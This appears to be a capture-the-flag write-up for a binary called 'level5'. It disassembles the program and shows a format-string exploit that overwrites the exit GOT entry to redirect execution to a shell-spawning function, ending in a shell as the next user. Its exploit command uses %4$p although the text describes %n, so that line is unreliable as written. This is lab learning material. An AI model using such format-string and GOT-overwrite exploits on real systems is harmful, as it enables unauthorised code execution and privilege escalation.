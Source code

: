 level5
======

Dissassembly
------------

To dissassemble the executable we can use objdump.
```sh
EXECUTABLE=./level5

objdump -M intel -d "$EXECUTABLE"
```

The main function looks like this:
```nasm
08048504 <main>:
 8048504:	55                   	push   ebp
 8048505:	89 e5                	mov    ebp,esp
 8048507:	83 e4 f0             	and    esp,0xfffffff0
 804850a:	e8 b3 ff ff ff       	call   80484c2 <n>
 804850f:	c9                   	leave
```

It calls another function n, which uses printf to print our input:

```nasm
080484c2 <n>:
 80484c2:	55                   	push   ebp
 80484c3:	89 e5                	mov    ebp,esp
 80484c5:	81 ec 18 02 00 00    	sub    esp,0x218
 80484cb:	a1 48 98 04 08       	mov    eax,ds:0x8049848
 80484d0:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484d4:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484db:	00
 80484dc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484e2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e5:	e8 b6 fe ff ff       	call   80483a0 <fgets@plt>
 80484ea:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484f0:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f3:	e8 88 fe ff ff       	call   8048380 <printf@plt>
 80484f8:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484ff:	e8 cc fe ff ff       	call   80483d0 <exit@plt>
```

There is a call to exit at the end of the procedure, so we cannot override the stored value of the EIP to jump on a shellcode.

There also is another function o, which uses a system call to run a shell:
```nasm
080484a4 <o>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 ec 18             	sub    esp,0x18
 80484aa:	c7 04 24 f0 85 04 08 	mov    DWORD PTR [esp],0x80485f0
 80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
 80484b6:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>
```

The problem is that it is not referenced, and needs to be accessed through a jmp or call instruction. 
We can see that the only thing we can exploit would be the exit call itself, since we cannot reach any other function past this point.

The exit function uses a PLT-stub to redirect the call to the dynamically loaded libc library, whose address is only knwon past runtime-linking.
The stub function looks like this:
```nasm
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    DWORD PTR ds:0x8049838
 80483d6:	68 28 00 00 00       	push   0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>
```
The stub function jumps to a pointer stored at 0x8049838.
If we manage to overwrite this pointer, we can jump anywhere we want.

The stack of the n function looks like this:
| Address | Type           | Size |
|---------|----------------|------|
| -0x218  | char \*fmt     |   4  |
| -0x210  | FILE \*stdin   |   4  |
| -0x20c  | size_t len     |   4  |
| -0x208  | char data[200] | 512  |
|  0x000  | \*EBP          |   4  |
|  0x004  | \*EIP          |   4  |

We can place the address of the stub function's pointer to the start of our buffer, and write to it using the %n format specifier.

Let's try to jump to the o function with the system call:
```sh
ADDRESS=08049838
VALUE=080484a4

BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
LENGTH=$((16#$VALUE))
PADDING=$((LENGTH - ${#BYTES}))

echo "${BYTES}%${PADDING}x%4\$p" | ./level5
```
```sh
...
200
whoami
level6
```
